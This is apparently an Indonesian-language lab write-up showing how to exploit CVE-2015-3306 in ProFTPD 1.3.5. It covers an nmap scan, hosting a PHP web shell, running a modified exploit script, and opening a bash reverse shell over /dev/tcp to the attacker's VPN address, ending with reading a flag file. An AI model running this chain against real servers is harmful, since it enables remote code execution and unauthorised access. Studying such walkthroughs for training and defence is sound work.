



title: Ini buat ngatur title
sidebar_title: ini buat sidebar custom
new: true
author: nwabel

# CVE-2015-3306 - ProFTPD 1.3.5 Remote Code Execution

!!! info "Ringkasan"
    Eksploitasi kerentanan pada ProFTPD 1.3.5 yang memungkinkan eksekusi kode jarak jauh (RCE) melalui modul `mod_copy`.  
    **Referensi**: [CVE-2015-3306](https://nvd.nist.gov/vuln/detail/CVE-2015-3306)

---

## 1. Nmap Scan

Lakukan pemindaian awal untuk mengetahui layanan yang berjalan.

<!-- termynal -->
```bash
$ nmap -sC -sV 172.20.81.12
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-26 00:36 WIB
Nmap scan report for 172.20.81.12 (172.20.81.12)
Host is up (0.22s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 95:30:f3:df:a0:a0:f5:2c:cb:3a:f7:4a:7d:c4:62:d5 (RSA)
|   256 21:d6:55:80:3b:05:0b:b6:f2:f3:0d:07:65:6a:87:41 (ECDSA)
|_  256 6b:5a:cd:21:7f:e0:a5:b2:96:02:18:13:56:db:8c:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.36 seconds
```

---

## 2. TUN0 Interface

Cek IP pada interface VPN (tun0) untuk koneksi reverse shell.

<!-- termynal -->
```bash
$ ifconfig tun0
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.8.42.37  netmask 255.255.0.0  destination 10.8.42.37
        inet6 fe80::3768:6e84:877a:3778  prefixlen 64  scopeid 0x20<link>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 2680  bytes 318268 (310.8 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2820  bytes 156462 (152.7 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

---

## 3. Menyiapkan HTTP Server

Jalankan server HTTP sederhana untuk hosting file shell.

<!-- termynal -->
```bash
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.20.81.12 - - [26/Aug/2025 00:40:06] "GET /tes.php HTTP/1.1" 200 -
172.20.81.12 - - [26/Aug/2025 00:43:53] "GET /tes.php HTTP/1.1" 200 -
```

---

## 4. Eksekusi Exploit

Jalankan exploit `modified_cve_2015_3306.py` yang sudah dimodifikasi.

<!-- termynal -->
```bash
$ python3 modified_cve_2015_3306.py --host 172.20.81.12 --port 21 --path /var/www/html --shell tes.php --lhost 10.8.42.37 --server_port 8000
[+] CVE-2015-3306 exploit by t0kx
[+] Exploiting 172.20.81.12:21
[+] Target exploited, acessing shell at http://172.20.81.12/backdoor.php
```

Verifikasi shell berhasil diunggah.

<!-- termynal -->
```bash
$ curl -i http://172.20.81.12/tes.php
HTTP/1.1 200 OK
Date: Mon, 25 Aug 2025 17:44:19 GMT
Server: Apache/2.4.62 (Debian)
Vary: Accept-Encoding
Content-Length: 151
Content-Type: text/html; charset=UTF-8

<html>
<body>
<form method="GET" name="tes.php">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
┌─[y0tn@parrot]─[~/Hackviser/Labs/CVE-2015-3306]
└──╼ $curl -I http://172.20.81.12/tes.php
HTTP/1.1 200 OK
Date: Mon, 25 Aug 2025 17:45:08 GMT
Server: Apache/2.4.62 (Debian)
Content-Type: text/html; charset=UTF-8
```

---

## 5. Reverse Shell

Jalankan listener di mesin attacker dan eksekusi reverse shell.

**Command reverse shell:**
```bash
bash -c 'bash -i >& /dev/tcp/10.8.42.37/9001 0>&1'
```

<!-- termynal -->
```bash
$ nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 172.20.81.12 55674
bash: cannot set terminal process group (461): Inappropriate ioctl for device
bash: no job control in this shell
www-data@debian:/var/www/html$ cd /
www-data@debian:/$ ls
```

---

## 6. Menemukan Flag

Setelah berhasil masuk, cari file `secret.txt`.

<!-- termynal -->
```bash
www-data@debian:/$ ls -l /secret.txt
-rwxrwxrwx 1 root root 14 Dec 31  2024 /secret.txt

www-data@debian:/$ cat secret.txt
Tyrannosaurus
```

---

## 7. Referensi & Sumber Daya

!!! tip "Referensi"
    - [Revshells.com](https://www.revshells.com/) – Generator reverse shell.
    - [Modified CVE-2015-3306 Exploit](https://github.com/cdedmondson/Modified-CVE-2015-3306-Exploit) – Versi modifikasi exploit.
    - [Exploit asli oleh t0kx](https://github.com/t0kx/exploit-CVE-2015-3306).
    - [Sploitus](https://sploitus.com/?query=cve-2015-3306#exploits) – Pencarian exploit.

  
*Contoh tampilan revshells.com*

  
*Contoh tampilan shell*

  
*Flag ditemukan*